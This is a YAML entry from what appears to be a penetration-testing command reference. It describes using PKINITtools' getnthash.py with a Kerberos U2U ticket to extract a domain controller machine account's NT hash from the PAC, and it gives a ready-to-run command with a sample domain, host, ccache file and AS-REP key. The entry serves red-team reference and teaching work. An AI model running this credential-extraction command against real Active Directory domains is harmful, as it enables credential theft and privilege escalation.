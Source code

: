 ```yaml
---
description: |
  PKINIT getnthash.py request a TGS for yourself using Kerberos U2U. This will include with the PAC which in turn contains the NT hash that you can decrypt with the AS-REP key that you got from your TGT request using gettgtpkinit.py from PKINIT. Use the TGT from gettgtpkinit.py in your KRB5CCNAME env variable. 

  Command Reference:
  
    Domain: test.local
    
    Host that you got the TGT from: DC01
    
    TGT from gettgtpkinit.py: out.ccache
    
    AS-REP key: 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773

command: |
  KRB5CCNAME=out.ccache python3 getnthash.py test.local/DC01\$ -key 6e63333c372d7fbe64dab63f36673d0cd03bfb92b2a6c96e70070be7cb07f773
items:
  - TGT
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
  - PrivEsc
references:
- https://github.com/dirkjanm/PKINITtools
- https://dirkjanm.io/ntlm-relaying-to-ad-certificate-services/
---
```

